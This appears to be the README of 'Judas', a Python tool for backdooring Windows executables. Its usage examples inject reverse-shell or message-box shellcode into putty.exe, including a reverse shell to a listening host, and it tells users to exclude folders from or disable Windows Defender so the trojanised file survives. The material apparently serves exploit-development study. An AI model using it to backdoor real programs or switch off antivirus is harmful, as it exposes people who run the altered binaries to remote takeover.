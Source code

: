 # Judas

## Setup

First ensure your box is completely up to date.
The instructions that follow assume you are using a Debian based Linux distribution.
The only system that is known not to work with this framework is macOS as for some reason it does not ship with memory map.

```bash
sudo apt update && sudo apt upgrade -y
```

After updating and upgrading the system install the dependencies needed by Judas.
I would recommend installing keystone by building the source. I had issues using Python's Pip.

```bash
pushd
NB_CPU="$(grep -c processor /proc/cpuinfo)"
sudo apt-get install python3-pip git cmake gcc g++ pkg-config libglib2.0-dev libssl-dev -y
cd /tmp
git clone https://github.com/keystone-engine/keystone.git
cd keystone
mkdir build
cd build
sed -i "s/make -j8/make -j${NB_CPU}/g" ../make-share.sh
../make-share.sh
sudo make install
sudo ldconfig
cd ../bindings/python
sudo make install3 
popd
```

```bash
pip3 install -r requirements.txt
```

## Execution

To run the tool we recommend running `backdoor.py` as it is treated as the driver for Judas.
Our tool utilizes Python's argparse module to help with command line arguments. 
In its current state it can take in a multitiude of different arguments.

## Example

To inject the message box shellcode into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t msg`

To inject the reverse shell shellcode with listening host of 10.0.0.2 and listening port of 80 into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t rev -lH 10.0.0.2 -lP 80`

To run Judas on putty.exe in wizard mode run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -w`

## Option Summary

### Path

The only required parameter is path which is expected to come immediately after the call to backdoor.
This is the path to the file that you wish to inject.

### Listening Port (-lP | --lport)

Port the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening port.

### Listening Host (-lH | --lhost)

Host's IP the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening host.

### Section Size (-sS | --section_size)

Size of the section being injected into the binary.
Defaults to 1024.

### Page Size (-pS | --page_size)

Size of the page being injected into the binary.
Defaults to 1024.

### Section Permissions (-sP | --section_permissions)

Permissions of the section being injected into the binary.
Defaults to 0xE0000000 (READ | EXECUTE).

### Section Name (-sN | --section_name)

Name of the section being injected into the binary.
Defaults to .pwn.

### Payload Type (-t | --type)

Type of the payload being injected.
Current options:
    msg : message box shell script
    rev : reverse shell script

### Wizard Mode (-w | --wizard)

Activates wizard which prompts users for inputs depending on type of payload chosen.

### Verbose Mode (-v | --verbose)

Activates verbose mode

## Windows

If running this script on Windows ensure you exclude this folder from Windows Defender scans.
If you do not Windows Defender will automatically delete the file produced by the script.
Go to `Windows Defender Security Center`, then `Virus & threat protection settings`, and at the bottom there is `Exclusions`.
Add a new folder and put in the path for this repo.
The same goes for when you exploit the Windows system.
In this projects current state it cannot bypass antivirus, so to see it actually work ensure AV is disabled or marked to exclude the directory Judas is executed from.

## Resources

* https://captmeelo.com/exploitdev/osceprep/2018/07/16/backdoor101-part1.html
* https://resources.infosecinstitute.com/back-dooring-pe-files-windows/
* https://r0ttenbeef.github.io/backdooring-pe-file/
* https://axcheron.github.io/code-injection-with-python/
* https://docs.microsoft.com/en-us/windows/win32/debug/pe-format?redirectedfrom=MSDN
* https://resources.infosecinstitute.com/2-malware-researchers-handbook-demystifying-pe-file/

## Dependencies

* Assembler
  * https://github.com/keystone-engine/keystone
* PE Parser
  * https://github.com/erocarrera/pefile
* Network Interface
  * https://github.com/al45tair/netifaces